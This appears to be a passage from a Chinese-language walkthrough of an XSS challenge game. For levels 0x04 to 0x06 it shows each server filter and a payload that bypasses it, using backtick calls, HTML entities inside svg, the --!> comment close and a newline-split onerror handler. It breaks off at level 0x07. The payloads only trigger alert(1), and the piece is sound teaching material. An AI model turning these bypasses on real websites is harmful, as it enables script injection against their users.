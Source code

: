 方括号`[]`用于查找某个范围内的字符，所以是过滤了圆括号，这里用\`代替。``<script>alert`1`;</script>``

## 0x04

Server code

<pre class="wp-block-code"><code>function render (input) {
  const stripBracketsRe = /&#91;()`]/g
  input = input.replace(stripBracketsRe, '')
  return input
}</code></pre>

这次通过执行实体字符来实现。参考<a href="https://www.w3school.com.cn/charsets/ref_html_8859.asp" target="_blank" rel="noreferrer noopener" rel="nofollow" >https://www.w3school.com.cn/charsets/ref_html_8859.asp</a>

```
<svg><script>alert&#40;1&#41;;</script>
```



## 0x05

Server code

<pre class="wp-block-code"><code>function render (input) {
  input = input.replace(/-->/g, '😂')
  return '&lt;!-- ' + input + ' -->'
}</code></pre>

注释方式有两种:

```
<!-- 注释内容 -->
<!-- 注释内容 --!>
```

输入`--!><script>alert(1);</script>`

## 0x06

Server code

<pre class="wp-block-code"><code>function render (input) {
  input = input.replace(/auto|on.*=|>/ig, '_')
  return `&lt;input value=1 ${input} type="text">`
}</code></pre>

过滤以auto开头、on开头=结尾的字符串、<并替换成_。但并没有匹配换行符, 可以通过换行来绕过匹配。

<pre class="wp-block-code"><code>type="image" src=# onerror
=alert(1)</code></pre>

## 0x07

Server code
